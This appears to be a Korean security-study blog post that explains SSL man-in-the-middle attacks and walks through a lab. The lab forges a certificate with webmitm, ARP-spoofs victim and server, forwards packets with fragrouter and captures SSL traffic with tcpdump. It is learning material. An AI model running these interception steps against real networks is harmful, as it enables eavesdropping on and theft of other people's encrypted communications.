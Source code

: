 ```yaml
---
title:  "SSL MITM" 

categories:
  - appatack
tags:
  - [injection]

toc: true

date: 2022-11-04
last_modified_at: 2022-11-04
---
```


## SSL MITM

- SSL MITM
  - Key 동기화를 위해 인증서를 전달하는 과정이 공격자에게 노출됨

  - 공격자가 클라이언트와는 서버 역할, 서버와는 클라이언트 역할을 수행하며 key 동기화 과정을 진행

  - 클라이언트는 공격자의 위조된 인증서를 통해 획득한 공개키로 클라이언트가 생성한 비밀키를 전달

  - 공격자는 정상 서버에게 서버의 인증서를 통해 획득한 공개키로 공격자가 생성한 비밀키를 전달

  - 공격자는 양쪽 통신에 필요한 비밀키를 획득 하여 전달되는 요청/응답을 복호화

    ![화면 캡처 2022-11-04 202722](../../assets/img/화면 캡처 2022-11-04 202722.png)

#### 실습

- 공격자의 인증서 생성

  - kh 인증서는 서버에서 공격자로 

  - 새로운 위조된 인증서를 만들어서 공격대상

    ```
    # webmitm
    ```

    ![화면 캡처 2022-11-04 204842](../../assets/img/화면 캡처 2022-11-04 204842.png)

- 인증서 확인

  ```
  # ls -al webmitm.crt
  ```

  ![화면 캡처 2022-11-04 205005](../../assets/img/화면 캡처 2022-11-04 205005.png)

- 가짜 인증서 동작

  ```
  # webmitm -d
  ```

  ![화면 캡처 2022-11-04 210152](../../assets/img/화면 캡처 2022-11-04 210152.png)

- 가짜 웹서버

  ```
  # service apache2 restart
  # netstat -antup | grep webmitm
  ```

  ![화면 캡처 2022-11-04 210553](../../assets/img/화면 캡처 2022-11-04 210553.png)

- aspsoofing

  - 두번째 터미널

    ```
    # arpspoof -t 공격대상 웹서버		
    ```

    

  - 세번째 터미널

    ```
    # arpspoof -t 웹서버 공격대상
    ```

    

- 패킷 포워딩

  ```
  # fragrouter -B1
  ```

  ![화면 캡처 2022-11-04 211349](../../assets/img/화면 캡처 2022-11-04 211349.png)

- tcpdum를 이용하여 지나가는 SSL 패킷 캡쳐

  ```
  # tcpdump -i eth- -xX -w ssldump.pcap
  ```

  ![화면 캡처 2022-11-04 211312](../../assets/img/화면 캡처 2022-11-04 211312.png)